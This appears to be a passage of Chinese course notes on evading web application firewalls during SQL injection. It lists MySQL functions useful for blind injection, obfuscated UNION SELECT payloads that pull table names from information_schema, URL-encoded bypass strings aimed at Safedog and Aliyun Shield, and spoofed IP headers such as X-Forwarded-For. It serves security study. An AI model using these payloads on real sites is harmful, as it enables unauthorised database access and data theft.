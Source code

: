 ```

#分割字符串
length(trim(leading ‘a’ FROM ‘abc’))
length(replace(‘abc’, ‘a’, ”))

#比较字符串
strcmp(‘a’,'a’)
mod(‘a’,'a’)
find_in_set(‘a’,'a’)
field(‘a’,'a’)
count(concat(‘a’,'a’))

#字符串长度
length()
bit_length()
char_length()
octet_length()
bit_count()

#关键字过滤
Connected keyword filtering
(0)union(select(table_name),column_name,…
0/**/union/*!50000select*/table_name`foo`/**/…
0%a0union%a0select%09group_concat(table_name)….
0′union all select all`table_name`foo from`information_schema`. `tables`

#控制流
case ‘a’ when ‘a’ then 1 [else 0] end
case when ‘a’='a’ then 1 [else 0] end
if(‘a’='a’,1,0)
ifnull(nullif(‘a’,'a’),1)
```

<a name="wOaYo"></a>
### 小迪课程
![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1625389326994-0be8a5eb-af50-4eb1-a2ef-dc29452d2839.png#from=url&id=htdrB&originHeight=778&originWidth=827&originalType=binary&ratio=1&status=done&style=none)

---

<a name="QCEa1"></a>
#### 案例演示

- 简要其他绕过方式学习
- FUZZ绕过脚本结合编写测试
- 阿里云盾防SQL注入简要分析
- 安全狗+云盾SQL注入插件脚本编写
```bash
%23x%20union%23x%0Aselect%201,2,3

%20union%20/*!44509select*/%201,2,3

%20/*!44509union*/%23x%0aselect%201,1,2,3

id=1/**&id=-1%20union%20select%201,2,3%23*/

%20union%20all%23%0a%20select%201,2,3%23
```
**方式一:IP白名单**<br />从网络层获取的ip，这种一般伪造不来，如果是获取客户端的IP，这样就可能存在伪造Ip绕过的情况。<br />测试方法:修改nttp的header来bypass waf
```bash
x-forwarded-for
x-remote-IP
x-originating-工P
```